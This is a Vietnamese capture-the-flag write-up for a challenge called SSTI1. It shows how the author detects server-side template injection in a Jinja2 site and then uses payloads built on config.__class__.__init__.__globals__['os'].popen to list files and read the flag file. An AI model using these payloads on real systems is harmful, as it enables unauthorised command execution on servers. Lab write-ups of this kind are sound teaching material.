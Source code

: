 # SSTI1
![img](257)

![img](258)

Truy cập website:

![img](259)

Dựa vào tên thử thách: `SSTI`, tôi nghĩ rằng có thể liên quan đến lỗ hổng `Server-side Template Injection`, tôi thử nhập `{{7*'7'}}` vào box: 

![img](260)

Click `OK`:

![img](261)

=> Có vẻ website có thể dính lỗ hổng `SSTI`, đồng thời có thể suy ra website sử dụng template `Jinja2 (Python Flask/Django)`. 

Tìm kiếm payload trên mạng:

    {{config.__class__.__init__.__globals__['os'].popen('ls').read()}}

Payload trên sẽ liệt kê các file hiện có:

![img](262)

Tiếp tục thử payload sau để kiểm tra định dạng file `flag`:

    {{config.__class__.__init__.__globals__['os'].popen('file flag').read()}}

![img](263)

=> Đọc nội dung file này:

    {{config.__class__.__init__.__globals__['os'].popen('cat flag').read()}}

![img](264)

